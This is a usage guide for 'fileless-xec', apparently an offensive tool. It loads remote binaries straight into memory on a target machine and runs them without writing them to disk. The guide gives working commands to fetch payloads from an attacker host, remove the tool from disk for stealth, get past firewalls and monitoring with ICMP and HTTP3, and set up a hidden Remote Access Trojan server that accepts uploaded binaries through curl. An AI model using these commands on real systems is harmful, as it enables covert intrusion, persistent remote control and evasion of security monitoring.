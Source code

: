 # `fileless-xec` use cases and examples


  - [`curl | sh` for binaries](#curl--sh-for-binaries)
  - [Execute binary with stdout/stdin](#execute-binary-with-stdoutstdin)
  - [Execute binary with arguments](#execute-binary-with-arguments)
  - [`fileless-xec` self remove](#fileless-xec-self-remove)
  - [Bypass network restriction with ICMP](#bypass-network-restriction-with-icmp)
  - [Bypass firewall with HTTP3](#bypass-firewall-with-http3)
  - ["Remote go": execute go binaries without having go installed locally](#remote-go-execute-go-binaries-without-having-go-installed-locally)
  - [Execute a shell script](#execute-a-shell-script)
  - [`fileless-xec` server mode](#fileless-xec-server-mode)
    - [RAT (Remote Access Trojan) scenarion](#rat-remote-access-trojan-scenario)
  - [`fileless-xec` on windows](#fileless-xec-on-windows)

## `curl | sh` for binaries

This is the basic use case for `fileless-xec`. It enables us to run a remote binary without dropping it on disk:
```shell
fileless-xec [binary_url]
```

## Execute binary with stdout/stdin

`fileless-xec` is able to execute binaries with stdout and stdin. There isn't any special configuration or flag to make it works

## Execute binary with arguments

You can also passed arguments to your binary:
```
fileless-xec [binary_url] -- [flags_and_values_for_the_binary]
```

## `fileless-xec` self remove

On linux, you could remove `fileless-xec`from disk during its execution. This a step further for stealthiness:
```
fileless-xec --self-remove [binary_url]
```

## Bypass network restriction with ICMP

For several reasons, it is sometimes stealther to use icmp protocol (not monitored, not blocked, etc ...). In this case, fileless-xec could be used as an ICMP server to retrieve binary content before execute it. 

*Product placement: To send the binary content you should use [`QueenSono`](https://github.com/ariary/QueenSono) (icmp tools for data transfer/exfiltration)*

On target machine, launch the icmp server:
```
fileless-xec icmpserver [listening_addr]
```

On attacker machine, base64 encode the binary, and send it using `qssender` (Queensono client):
```
cat [binary] | base64 > tmp
qssender send file -d 1 -l 0.0.0.0 -r [remote_listening_addr] -s 63000 tmp
rm tmp
```


## Bypass firewall with HTTP3

See [HTTP3 - README](https://github.com/ariary/fileless-xec#http3quic) for explanation about the benefit of HTTP3 (spoil: bypass fw):

On attacker machine, set up HTTP3 server:
```bash
./example/http3/genkey.sh
go build light-server.go
./light-server  # launch on port 6121
```

On target machine, tell that you want to use http3:
```
fileless-xec --http3 https://[attacker_ip]:6121/[binary_name]
```


## "Remote go": execute go binaries without having go installed locally

### Pre-requisites

* Attacker machine: 
  * go installed
* Target machine:
  * `fileless-xec`


If you want to run some go code on machine where go is not installed and you don't want to install it:

* For stealthiness reason (in a pentest, the less we install the better)
* For idleness or quickness reason

You will build your go on attacker machine, and use `fileless-xec` to execute it on target machine.

Of course, this use case is applicable for every program language that provides toolchains to make binaries (ex C/C++)


## Execute a shell script

If you are tired of running binaries.. and you want to run shell. This is a workaround example.

1. Transform your script in go code: (delete line `#!/bin/bash` and avoid `"`)

```
go build ./example/shell/generate.go
./generate myscript.sh
```

2. Compile it:

 ```
 go build nestedscript.go
 ```

3. Classicaly execute it on target
```
fileless-xec  [binary_url]
```

## `fileless-xec` server mode

This feature provide  another type of interaction between target and attacker machine:
target machine would have a server (upload binaries server) and attacker machine will send the binary ( trough http, http3, ...) to the server. Once the binary file received the target machine execute it as usual.

We change the connection direction between the 2 machines. As bind shell/reverse shell, it is useful to have both possibilities to adapt to the different possible network permissions



On target Launch the server:
```
fileless-xec server [port]
```

On Attacker machine send the binary to be executed:
* with curl: `curl -X POST -F "executable=@[BINARY_FILENAME]" http://[TARGET_IP:PORT]/upload`
* using client provide in example: 
```
#change url and port in ./example/client/client.go to the target machine ones
go build ./example/client/client.go
./client [BINARY_FILENAME]`
```

### RAT (Remote Access Trojan) scenario

fileless-xec is a dropper that make your program execution stealth. But we can go further and launch a stealth fileless-xec server (RAT), that will wait for program execution

1. On attacker machine build/download fileless-xec and expose it trough HTTP server:
```
# in the same folder of fileless-xec binary
python3 -m http.server 11211
```

2. On target machine launch your stealth fileless-xec (with an "unstealth" one):
```
./fileless-xec --self-remove http://[ATTACKER_IP:PORT]/fileless-xec -- serve 11211
```

3. Now your fileless-xec is silently and patiently waiting for your program to execute it. If you want execute it, on attacker machine:
```
curl -X POST -F "executable=@[BINARY_FILENAME]" http://[TARGET_IP]:11211/upload
```

## `fileless-xec` on windows

You could alse use `fileless-xec` on windows.
Build `filess-xec.exe` with Makefile:
```
make windows.build.fileless-xec
```

Usage is the same except that it is less stealth as binaries are on disk and you can't self remove `fileless-xec` while execution. Meanwhile the binary is immediatly deleted after execution
